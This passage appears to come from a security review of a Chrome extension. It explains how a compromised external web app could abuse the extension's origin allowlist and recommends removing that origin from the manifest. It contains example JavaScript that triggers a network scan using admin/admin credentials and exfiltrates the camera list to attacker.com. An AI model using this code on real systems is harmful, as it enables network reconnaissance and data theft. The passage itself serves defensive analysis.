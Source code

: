 2. **Malicious JavaScript Injection**
   ```javascript
   // Attacker's malicious code on anava-ai.web.app
   chrome.runtime.sendMessage(
     'YOUR_EXTENSION_ID',
     {
       command: 'scan_network',
       payload: {
         subnet: '192.168.1.0/24',
         credentials: { username: 'admin', password: 'admin' }
       }
     },
     (response) => {
       // Send discovered cameras to attacker's server
       fetch('https://attacker.com/exfiltrate', {
         method: 'POST',
         body: JSON.stringify(response.data.cameras)
       });
     }
   );
   ```

3. **Extension Executes Attack**
   - Extension receives message from `anava-ai.web.app`
   - Origin check passes (it's in `ALLOWED_ORIGINS`)
   - Extension scans local network via proxy
   - Returns camera list to malicious JavaScript
   - Attacker exfiltrates data

4. **Lateral Movement**
   - Attacker deploys malicious ACAP to cameras
   - Gains persistent access to customer networks
   - Pivots to other devices on network

---

## 🛡️ Solution Options

### Option 1: Remove External Web App (RECOMMENDED)

**Security Level**: ⭐⭐⭐⭐⭐ (Best)
**Implementation Effort**: MEDIUM
**Breaking Changes**: YES (requires web app redesign)

**Changes Required**:

#### 1.1 Update `manifest.json`
```json
"externally_connectable": {
  "matches": [
    "http://localhost:5173/*",
    "http://localhost:3000/*"
    // REMOVED: "https://anava-ai.web.app/*"
  ]
}
```
